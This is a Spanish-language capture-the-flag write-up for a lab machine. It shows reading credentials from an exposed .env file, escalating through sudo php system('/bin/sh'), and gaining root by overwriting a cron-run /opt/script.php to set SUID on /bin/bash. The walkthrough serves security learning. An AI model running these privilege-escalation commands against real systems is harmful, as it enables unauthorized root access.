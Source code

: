 nmap: 22, 80

![image](https://github.com/user-attachments/assets/17d47401-b6fc-4bf1-bd5f-62a66bf34e98)

---
al ingresar a la pagina no da una posible usuario "balu"
al entrar al código de la pagina podemos ver que hay un "script.js" al final, si entramos nos mandara a otro código con lo que muestra esto:

![image](https://github.com/user-attachments/assets/3c3528f8-fc03-42b2-bedf-b5f8cfd48ec3)

y si colocamos el 
> .env_de_baluchingo

en el URL queda si:

>http://172.17.0.2/.env_de_baluchingon

nos dará las credenciales

![image](https://github.com/user-attachments/assets/a32544d7-07fa-49ea-b4b5-1a768c25d73d)

![image](https://github.com/user-attachments/assets/94b81bf7-84e2-4daa-be93-52a6fe54049e)

estamos dentro y ahora buscamos como escalar

para escalar se puede por "php" pero no tenemos permisos de escritura o modificación.
para escalar al otro usuario chocolate 
seguí los pasos de: https://gtfobins.github.io/gtfobins/php/#sudo

![image](https://github.com/user-attachments/assets/9dc11e61-3006-46e3-9a70-cb159c7f1377)

![image](https://github.com/user-attachments/assets/3bc81f7e-ba58-40f3-8784-53c88390b4fa)

    CMD="/bin/sh"

     sudo -u chocolate php -r "system('$CMD');"


ahora a escalar a root

utilizamos una herramienta llamada pspy para ver que ejecuta root sin ser root nosotros y poder ver: https://github.com/DominicBreuker/pspy
lo ejecutamos y muestra que esta carpeta se ejecuta cada 5 segundos:  /opt/script.php

![image](https://github.com/user-attachments/assets/9292dc4b-c6f1-496b-b9f3-626ab09e6868)

ejecutamos los siguientes comandos:

    echo "<?php" > /opt/script.php

    echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php

    echo "?>" >> /opt/script.php

por orden uno por uno, lanzamos bash -p

![image](https://github.com/user-attachments/assets/20271c87-bb1e-4499-b345-279e6c2cef11)

y somos root! 
